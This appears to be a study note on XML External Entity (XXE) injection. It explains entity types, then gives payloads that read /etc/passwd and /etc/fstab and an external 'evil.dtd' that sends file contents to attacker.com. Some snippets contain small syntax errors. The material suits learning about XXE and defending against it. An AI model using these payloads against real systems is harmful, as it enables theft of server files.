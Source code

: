 # XML External Entities

XML is about data transportation and sometimes storage

Use in API, UIs, config files and RSS feeds.

``` xml
<?xml version="1.0"?> <!-- xml metadata-->
<Person>
<Name>John</Name>
<Age>20</Age>
</Person>
```

Tag names are case sensitive
`<>"'` are not allowed in the document directly because XML parsers will have trouble interpreting it correctly

## Entities

**Entities** are like variables for XML. You can assign a value to it an use it multiple times in the document. They are are declared in **Document Type Defintion (DTD)**

``` xml
<!DOCTYPE Person [
    <!ENTITY name "John">
]>
<Person>
    <Name>&name;</Name>
    <Age>20</Age>
</Person>
```

There are many types of entities

* internal - defined within local DTD.

    ``` dtd
    <!DOCTYPE doc [
        <!ENTITY foo "bar">
    ]>
    ```

    Can be referred to within the XML as `&foo;` and will be replaced with the term "bar"
* external - defined outside of local DTD

    ``` dtd
    <!ENTITY foo SYSTEM "file:///external.dtd">
    ```

* parameter - only allowed inside DTD. Is used with the `%` symbol  
E.g. creating an entity whose value is another entity

    ``` xml
    <!DOCTYPE Person [
        <!ENTITY % outer "<!ENTITY inner 'John'>">
    ]>
    ```

* predefined - a set of predefined values of special characters

    ``` xml
    <hello>&#x3C;</hello>
    ```

## Exploitations

Entities can

* store values we specify
* pull values from a local files
* fetch remote data over the network and store them as entities

Here is an example of extracting contents from local files:

``` xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
    <!ENTITY subscribe SYSTEM "secret.txt">
    <!-- SYSTEM lets the entity know the XML parser know that the entity is external -->
    <!-- It stores the contents of "secret.txt" into subscribe -->
]>
<pwn>&subscribe;</pwn>
```

There are different types of XXE's; inband, error, out-of-band (OOB)

* inband - the XML will be parsed and the output will be shown on the screen
* error - a blink XXE, where you basically see a bunch of errors
* OOB - xml is parsed, but you can't see the output. You would need to do some sort of out of band request to exfiltrate data.

    ``` xml
    <?xml version="1.0"?>
    <!DOCTYPE XXE [
    <!ENTITY SYSTEM "http://attacker.com:1337">
    ]>
    <data>&send;</data>
    ```

    If we can see the request to `http://attacker.com/1337` we know we can use an external entities

### External Document Type Definitions

Notice that DTDs aren't actually part of the XML data and are declared outside of it. DTDs can be loaded externally just like entities

``` xml
<?xml version="1.0"?>
<!DOCTYPE Pwn [
<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'">
%parameter_entity;
]>
<pwn>&general_entity;</pwn>

<!-- This is parsed and interpreted as -->
<?xml version="1.0"?>
<!DOCTYPE Pwn [
<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'>">
<!ENTITY general_entity 'PwnFunction'>
]>
<pwn>&general_entity;</pwn>
```

We can't use parameter entities within the markup declaration, but we can use it in the same level as the markup definition. So in the XML snippet below:

* we **CAN'T** use `passwd` parameter in the wrapper parameter
* we **CAN** use the `wrapper` parameter

``` xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
<!ENTITY % passwd SYSTEM "/etc/passwd">
<!ENTITY % wrapper SYSTEM "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
<!ENTITY send SYSTEM 'http://attacker.com/?CONTENTS_OF_PASSWD'>
]>
<pwn>&send;</pwn>
```

Instead, we would have to use external DTDs

``` xml
<!-- main.xml -->
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

``` xml
<!-- evil.dtd -->
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
%wrapper;

<!-- This is interpreted as
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY %wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
<!ENTITY send SYSTEM 'http://attacker.com/?CONTENTS_OF_PASSWD>
-->
```

If a file contains non "well-formed" tags, e.g. `<p></p>`, they need to be enclosed with CDATA. Whatever is in between the opening and closing CDATA is will not be parsed as markup by the XML parser. e.g `<text>` is ignored in `<![CDATA[ <text> ]]>`.

The value of a CDATA entity has to be well-formed so we cannot do the following

``` xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY start "<![CDATA[">
<!ENTITY file SYSTEM "file:///etc/fstab">
<!ENTITY end "]]">
]>
<data>&start;&file;&end;</data>
```

The solution to this is using parameter entities and external DTDs

``` xml
<!-- external.dtd -->
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % end "]]">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>"
%wrapper;
```

For more possible XXE payloads see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
